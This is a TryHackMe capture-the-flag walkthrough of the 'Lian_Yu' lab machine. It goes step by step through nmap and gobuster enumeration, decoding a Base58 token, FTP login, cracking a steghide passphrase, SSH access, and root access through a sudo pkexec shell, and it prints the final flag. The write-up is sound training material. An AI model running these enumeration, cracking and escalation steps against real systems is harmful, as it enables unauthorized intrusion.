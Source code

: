 ```yaml
---
title: "Tryhackme - Lian_Yu WriteUp"
date: 2020-10-22
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```




# TryHackMe - Lian_Yu WriteUp


**Keywords**: CyberChef, Base58, steghide, stegcracker

Potential users:
ollie
oliver
ojonas
hood

## Information Gathering


### nmap

```
root@kali:~/TryHackMe# nmap -sV -sC -p- -T4 -A 10.10.46.126
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp    open  http    Apache httpd
111/tcp   open  rpcbind 2-4 (RPC #100000)
36233/tcp open  status  1 (RPC #100024)
```

### gobuster

```
root@kali:~/TryHackMe# gobuster dir -u http://10.10.46.126/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
/island (Status: 301)
```

A piece of note from /island page

```
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```

### gobuster

```
root@kali:~/TryHackMe# gobuster dir -u http://10.10.46.126/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
/2100 (Status: 301)
```

A piece of note from /island/2100 page

```
<!-- you can avail your .ticket here but how?   -->
```

### gobuster

```
root@kali:~/TryHackMe# gobuster dir -u http://10.10.46.126/island/2100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket
/green_arrow.ticket (Status: 200)
```

```
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

In **CyberChef** we decode it from Base58.

```
!#th3h00d
```


### ftp

```
root@kali:~/TryHackMe# ftp 10.10.46.126
Name (10.10.46.126:root): vigilante
Password: !#th3h00d
ftp> dir
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
ftp> get Leave_me_alone.png
ftp> get Queen's_Gambit.png
ftp> get aa.jpg
```


### stegcracker

```
root@kali:~/TryHackMe# stegcracker aa.jpg /usr/share/wordlists/rockyou.txt
Successfully cracked file with password: password
```

### steghide

```
root@kali:~/TryHackMe# steghide extract -sf aa.jpg 
Enter passphrase: password
wrote extracted data to "ss.zip".
```


Files extracted from pictures:

```
root@kali:~/TryHackMe# unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
root@kali:~/TryHackMe# cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
root@kali:~/TryHackMe# cat shado 
M3tahuman
root@kali:~/TryHackMe# 

```

### ssh

Note: We found the another username from ftp [using cd ... commandlet]

```
root@kali:~/TryHackMe# ssh slade@10.10.46.126
slade@10.10.46.126's password: M3tahuman
slade@LianYu:~$ 
```

## Privilege Escalation

```
slade@LianYu:~$ sudo -l
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

Victory!
